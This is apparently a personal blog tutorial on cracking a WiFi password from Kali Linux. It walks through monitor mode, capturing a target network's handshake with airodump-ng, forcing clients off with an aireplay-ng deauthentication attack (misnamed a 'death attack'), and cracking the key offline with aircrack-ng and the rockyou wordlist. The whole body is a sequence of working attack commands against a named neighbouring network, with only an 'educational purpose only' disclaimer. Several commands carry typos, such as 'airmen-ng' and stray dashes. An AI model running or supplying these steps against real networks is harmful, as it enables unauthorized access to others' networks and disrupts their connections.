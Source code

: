 ```yaml
---
title: Wifi Hacking
author: Radeel Ahmad
pubDatetime: 2024-05-12T12:22:23Z
slug: Hacking Wifi
featured: false
draft: false
tags:
  - hacking
  - wireless-hacking
ogImage: https://res.cloudinary.com/noezectz/v1663745737/astro-paper/astropaper-x-forestry-og_kqfwp0.png
description:
  step-by-step method to hack WIFI using a network adapter.
---
```


## Requirements
- Kali Linux Machine (attacking machine)
- Network Adapter

## Let’s Start…..

The network adapter I am using for this attack demo is **Alpha’s AWUS036H**.

![image1](Images/WH-1.jpg)

After connecting the network adapter, open the Kali Linux machine and write the followingcommand on the terminal.

```code
iwconfig
```

![image2](Images/WH-2.jpg)

When we connect the adapter, you’ll see the wlan0 interface on your terminal screens. To change the mode to `Monitor Mode`, use the following command.

```code
sudo airmen-ng start wlan0 
```

![image1](Images/WH-3.jpg)

Again, use the command mentioned below to verify the monitor mode.

```code
iwconfig
```

![image1](Images/WH-4.jpg)

As you can see, the mode has been changed. Now, use the airodump-ng tool to capture wireless network traffic on the specified interface.

```code
sudo airodump-ng wlan0
```

![image1](Images/WH-5.jpg)

It will display information about nearby **WiFi Networks**. Our intended interface is `Alvish Bhaii`. Then, copy the `BSSID`.

The Following command tells us how many devices are connected tothis Network interface.

```code
sudo airodump-ng wlan0 -d <mac-address>
```

![image1](Images/WH-6.jpg)

Remember, WiFi Networks always occupy a limited radius of the area. So, you should be within that radius to discover the WiFi network. The next step is to capture the handshake, using the **death attack**.

```code
sudo airodump-ng -w <filename> –c 1 --bssid <target-mac> wlan0
```

![image1](Images/WH-7.jpg)

In this attack, we save the handshake in a `.pcap` file. The next step is the death attack: We open another terminal and type the following command.

```code
sudo aireplay-ng -–deauth 0 -a <target-mac> wlan0
```

![image1](Images/WH-8.jpg)

If a disconnected client tries to connect with the wifi, they generate a four-way handshake.

**What is a four-way handshake?**
A four-way handshake is a message exchange between an access point and the client device.

![image1](Images/WH-9.jpg)

Now, you see that it captures the handshake. Type in the ls command to see the file.

![image1](Images/WH-10.jpg)

In our attack method, we are going to crack the password in our test-01.cap in encrypted form. The cracking is totally offline; we don’t need an internet connection or Wi-Fi adapter for it. We’ll use their crack toolto crack the password.

```code
aircrack-ng <filename.cap> -w /usr/share/wordlists/rockyou.txt
```

![image1](Images/WH-11.jpg)

**You see that the key is found and cracked Successfully.**

Thank You for reading this blog. I hope that you have found this information provided to be valuable and helpful. Use it for educational purpose only…. 🙂
